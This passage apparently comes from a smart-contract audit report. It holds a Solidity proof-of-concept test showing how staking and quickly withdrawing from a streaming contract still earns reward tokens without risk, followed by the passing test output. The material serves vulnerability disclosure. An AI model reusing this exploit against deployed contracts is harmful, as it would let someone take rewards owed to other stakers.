         testTokenA.approve(address(stream), type(uint256).max);
        stream.fundStream(1_000_000_000);
    
        // wait till the stream starts
        hevm.warp(block.timestamp + 16);
        hevm.roll(block.number + 1);
    
        // just interact with contract to fill "lastUpdate" and "ts.lastUpdate" 
    // without changing balances inside of Streaming contract
        alice.doStake(stream, address(testTokenB), stakeAmount);
        alice.doWithdraw(stream, stakeAmount);
    
    
        ///// ATTACK COMES HERE
        // stake
        alice.doStake(stream, address(testTokenB), stakeAmount);
    
        // wait a block
        hevm.roll(block.number + 1);
        hevm.warp(block.timestamp + 16);
    
        // withdraw soon thereafter
        alice.doWithdraw(stream, stakeAmount);
    
        // finish the stream
        hevm.roll(block.number + 9999);
        hevm.warp(block.timestamp + maxDepositLockDuration);
    
        // get reward
        alice.doClaimReward(stream);
    
    
        // accounting (to proof attack): save the rewardBalance of alice / save balance of stakeToken
        uint EndBalanceA = testTokenA.balanceOf(address(alice));
        uint EndBalanceB = testTokenB.balanceOf(address(alice));
    
        // Stream returned everything we gave it
        // (doStake sets balance of alice out of thin air => we compare end balance against our (thin air) balance)
        assert(stakeAmount == EndBalanceB);
    
        // we gained reward token without risk
        assert(StartBalanceA == 0);
        assert(StartBalanceA < EndBalanceA);
        emit log_named_uint("alice gained", EndBalanceA);
    }

##### [](#commandline)commandline

        dapp test --verbosity=2 --match "test_quickDepositAndWithdraw" 2> /dev/null
        Running 1 tests for src/test/Locke.t.sol:StreamTest
        [PASS] test_quickDepositAndWithdraw() (gas: 4501209)
    
        Success: test_quickDepositAndWithdraw
    
          alice gained: 13227

#### [](#tools-used)Tools Used
